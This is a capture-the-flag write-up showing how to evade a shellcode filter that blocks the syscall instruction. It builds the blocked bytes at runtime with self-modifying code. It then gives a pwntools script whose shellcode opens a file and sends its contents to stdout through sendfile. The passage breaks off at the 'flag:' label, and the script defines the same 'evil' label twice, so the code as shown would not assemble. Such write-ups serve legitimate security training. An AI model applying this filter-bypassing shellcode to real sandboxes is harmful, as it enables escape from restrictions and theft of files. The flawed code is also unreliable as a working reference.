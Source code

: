 We notice that "syscall" is nothing more than two bytes (0x0f and 0x05) loaded one after the other.
This is confirmed by the fact that if we substitute "syscall" with ".byte 0x0f, 0x05" in the previous challenge, we will obtain the same results.

```asm
inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04
```
The previous code is an effective substitute of syscall: it creates a label called "evil" which contains two bytes, 0x0e and 0x04.
Before this label is actually run we increase by 1 the values of 0x0e and 0x04 which will now be 0x0f and 0x05. By doing this we have bypassed the filtered imposed by the challenge by creating a `self-modifying shellcode`.

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2

inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04


mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40

inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04


flag:
```